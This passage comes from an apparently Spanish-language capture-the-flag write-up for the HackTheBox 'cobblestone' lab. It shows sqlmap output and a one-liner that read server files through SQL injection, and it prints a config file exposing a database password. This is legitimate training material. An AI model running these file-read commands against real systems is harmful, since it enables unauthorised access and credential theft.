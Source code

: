 ```
[12:14:36] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[12:14:36] [INFO] fingerprinting the back-end DBMS operating system
[12:14:36] [INFO] the back-end DBMS operating system is Linux
[12:14:36] [INFO] fetching file: '/var/www/html/db/connection.php'
do you want confirmation that the remote file '/var/www/html/db/connection.php' has been successfully downloaded from the back-end DBMS file system? [Y/n] Y
[12:14:37] [INFO] the local file '/root/.local/share/sqlmap/output/vote.cobblestone.htb/files/_var_www_html_db_connection.php' and the remote file '/var/www/html/db/connection.php' have the same size (303 B)
files saved to [1]:
[*] /root/.local/share/sqlmap/output/vote.cobblestone.htb/files/_var_www_html_db_connection.php (same file)

[12:14:37] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/vote.cobblestone.htb'

[*] ending @ 12:14:37 /2025-10-30/
```

Ahora si lo leemos...

> connection.php

```php
<?php

$dbserver = "localhost";
$username = "dbuser";
$password = "aichooDeeYanaekungei9rogi0eMuo2o";
$dbname = "cobblestone";

$conn = new mysqli($dbserver, $username, $password, $dbname);

// Check connection
if ($conn->connect_errno > 0) {
    die("Connection failed: " . $conn->connect_error);
}
?>
```

Veremos una contraseña con una conexion a una `DDBB` pero sera de forma interna, aunque probemos dicha contraseña en varios usuarios o en la pagina, veremos que no funcionara, por lo que tendremos que seguir investigando un poco mas por esta via.

Si investigamos un poco mas veremos que existe un `skin.php` que si lo leemos:

```shell
F="/var/www/html/skins.php"; sqlmap -r req.txt --batch -p url --file-read="$F" | grep -F '[*] /root' | awk '{print $2}' | xargs cat
```
